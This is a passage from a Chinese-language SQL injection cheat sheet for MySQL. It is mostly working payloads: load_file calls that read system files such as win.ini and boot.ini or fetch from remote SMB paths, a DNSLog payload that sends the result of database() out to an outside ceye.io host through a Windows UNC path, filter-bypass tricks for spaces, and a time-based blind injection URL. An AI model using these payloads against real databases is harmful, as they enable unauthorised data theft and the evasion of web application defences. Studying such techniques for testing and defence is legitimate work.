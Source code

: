 写文件的时候还需要看 php.ini 里面 gpc 是否开启看，开启的情况下，特殊字符都会被转义。

```sql
union select 1,2,3,4,load_file('c:\\window\\win.ini')
union select load_file('c:/boot.ini')
union select load_file(0x633a2f626f6f742e696e69)
union select load_file('//ecma.io/1.txt') # smb 协议。
union select load_file('\\\\ecma.io\\1.txt') # 可用于DNS隧道。
union select load_file(char(47)) # 可以列出 FreeBSD，Sunos 系统的根目录，char(47) 就是 '/'。
```

### DNSLog 外带

* 条件

- [x] 目录具有读写权限。
- [x] `secure_file_pri`为空。
- [x] Windows 系统。

```sql
'1' and load_file(concat('\\\\',(select database()),'.27epx0.ceye.io\\abc'))--+ # 使用 Windows 下的 UNC 路径。
```

相应的更换`select database()`查询语句便可以实现 DNS 外带的回显注入，其中 27epx0.ceye.io 为 ceye.io 平台给每个账号起的昵称。

## 绕过技术

### 空格绕过

两个空格代替一个空格，用 Tab 代替空格，`%a0` = 空格：

* %20 %09 %0a %0b %0c %0d %a0 %00 /\*\*/  /\*!\*/

使用注释替换空格：

* /**/

![](/images/252e775042ff8d4fe13b7964ed95b885.png)

使用浮点数：

```sql
select * from users where id=8E0union select 1,2,3;
select * from users where id=8.0 select 1,2,3;
```

### 括号绕过

如果空格被过滤，括号没有被过滤，可以用括号绕过。在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。

```sql
select(user())from dual where(1=1)and(2=2);
```

这种过滤方法常常用于 time based 盲注，例如：

```sql
?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23;
```
